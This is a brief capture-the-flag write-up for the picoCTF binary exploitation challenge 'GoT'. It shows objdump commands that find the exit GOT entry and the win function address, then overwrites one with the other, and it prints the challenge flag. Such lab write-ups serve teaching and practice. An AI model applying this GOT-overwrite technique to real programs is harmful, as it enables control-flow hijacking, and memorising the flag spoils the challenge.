 # GoT

## Binary Exploitation - Points: 350

> You can only change one address
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

The binary lets you overwrite one value at some memory address, get the address of `exit` from GOT:

    $ objdump -R vuln
      0804a01c R_386_JUMP_SLOT   exit@GLIBC_2.0

Convert the address to decimal: `134520860`

Get the address of the `win` function:

    $ objdump -d vuln | grep win
      080485c6 <win>

And again convert the address to decimal: `134514118`

So when answering these two values, the `exit` function in GOT will now point to the `win` function and print the flag.

flag: `picoCTF{A_s0ng_0f_1C3_and_f1r3_2a9d1eaf}`